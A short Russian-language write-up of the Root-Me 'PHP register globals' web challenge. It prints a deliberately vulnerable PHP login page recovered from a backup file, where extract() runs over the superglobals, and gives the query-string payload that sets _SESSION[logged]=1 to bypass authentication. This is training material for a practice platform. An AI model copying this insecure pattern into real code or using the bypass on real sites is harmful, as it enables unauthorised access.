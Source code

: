 # PHP register globals

25 Points

> Statement
>
> It seems that the developper often leaves backup files around...

Для начала пользуемся подсказкой про бэкапы и находим файл index.php.bak. Читаем исходный код.

```php
<?php


function auth($password, $hidden_password){
    $res=0;
    if (isset($password) && $password!=""){
        if ( $password == $hidden_password ){
            $res=1;
        }
    }
    $_SESSION["logged"]=$res;
    return $res;
}



function display($res){
    $aff= '
	  <html>
	  <head>
	  </head>
	  <body>
	    <h1>Authentication v 0.05</h1>
	    <form action="" method="POST">
	      Password&nbsp;<br/>
	      <input type="password" name="password" /><br/><br/>
	      <br/><br/>
	      <input type="submit" value="connect" /><br/><br/>
	    </form>
	    <h3>'.htmlentities($res).'</h3>
	  </body>
	  </html>';
    return $aff;
}



session_start();
if ( ! isset($_SESSION["logged"]) )
    $_SESSION["logged"]=0;

$aff="";
include("config.inc.php");

if (isset($_POST["password"]))
    $password = $_POST["password"];

if (!ini_get('register_globals')) {
    $superglobals = array($_SERVER, $_ENV,$_FILES, $_COOKIE, $_POST, $_GET);
    if (isset($_SESSION)) {
        array_unshift($superglobals, $_SESSION);
    }
    foreach ($superglobals as $superglobal) {
        extract($superglobal, 0 );
    }
}

if (( isset ($password) && $password!="" && auth($password,$hidden_password)==1) || (is_array($_SESSION) && $_SESSION["logged"]==1 ) ){
    $aff=display("well done, you can validate with the password : $hidden_password");
} else {
    $aff=display("try again");
}

echo $aff;

?>
```

По названию таска и по исходному коду видим, что мы можем вручную изменять глобальные переменные. И для решения таска нам нужно, чтобы $_SESSION["logged"] было равно 1.
В результате, чтобы увидеть флаг, нужно перейти по адресу  http://challenge01.root-me.org/web-serveur/ch17/index.php?_SESSION[logged]=1
